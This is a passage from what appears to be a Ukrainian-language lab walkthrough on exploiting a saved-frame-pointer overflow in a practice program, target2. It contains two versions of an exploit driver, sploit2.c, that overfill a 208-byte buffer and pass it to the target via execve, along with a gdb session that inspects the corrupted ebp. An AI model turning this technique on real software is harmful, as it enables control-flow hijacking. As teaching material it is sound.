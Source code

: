 Коли 0x08048552 &lt;+21&gt;: leave зпроцює mov esp,ebp //ebp зіпсований Отже, тепер наш пошкоджений ebp переміщується в esp, який змінює верх стека на довільне місце, а потім ret викликає eip, що вказує на довільну адресу.

Заполним буфер змінної buf 150 разів:

```c
int main (void)
{
  char buf[208];
  int i;

  for(i = 0; i < 150; i++) {
    *(buf + i) = 'A';
  }

  char *args[] = { TARGET, buf, NULL };
  char *env[] = { NULL };

  execve(TARGET, args, env);
  fprintf(stderr, "execve failed.\n");

  return 0;
}
```

_‌Лістинг 5: sploit2.c для використання заповнення буфера._

Та подивимось орігінальний ebp:

```bash
gdb -e sploit2 -s /tmp/target2
(gdb) catch exec
(gdb) run 
(gdb) break *bar+33
Breakpoint 2 at 0x804853b: file target2.c, line 23.
(gdb) continue
Continuing.
Breakpoint 2, 0x0804853b in bar (arg=0xbfffff55 'A' <repeats 150 times>, "\377\377/") at target2.c:23
23  }
(gdb) x/x $ebp
0xbffffdc0: 0xbffffdcc
```

_‌Лістинг 6: gdb перегляд ebp_

Тепер заповнем 202 раза:

```c
int main (void)
{
  char buf[208];
  int i;

  for(i = 0; i < 202; i++) {
    *(buf + i) = 'A';
  }

  char *args[] = { TARGET, buf, NULL };
  char *env[] = { NULL };

  execve(TARGET, args, env);
  fprintf(stderr, "execve failed.\n");

  return 0;
}
```
